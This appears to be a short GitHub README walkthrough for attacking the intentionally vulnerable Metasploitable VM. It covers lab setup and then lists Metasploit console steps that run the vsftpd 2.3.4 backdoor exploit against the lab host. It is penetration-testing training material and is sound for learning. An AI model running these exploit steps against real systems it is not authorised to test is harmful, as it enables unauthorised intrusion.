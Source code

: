# Metasploitable-Writeup

## 📌 What is Metasploitable ? 

Metasploitable is an intentionally vulnerable Linux virtual machine that can be used to conduct security training, test security tools, and practice common penetration testing techniques. The VM will run on any recent VMware products and other visualization technologies such as VirtualBox.

## ⚙️ Prepare our pen-lab.

We will need : 
- VMware , VitrualBox or any other visualization product.
- installed a Linux Machine ( ideally [Kali Linux](https://www.kali.org/) or [Parrot Os](https://www.parrotsec.org/) )
- Installed [Metasploitable Machine](https://sourceforge.net/projects/metasploitable/)

P.s. The Linux and Metasploitable machines should be in the same network group

## ⚈ FTP ( port : 21 ) Exploit

In our scan result we can see : 

**FTP Service (port:21) Exploit : **

- We will use the exploit [VSFTPD v2.3.4 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/).

1. use exploit/unix/ftp/vsftpd_234_backdoor
2. show options
3. set RHOSTS metasploit_ip
4. exploit
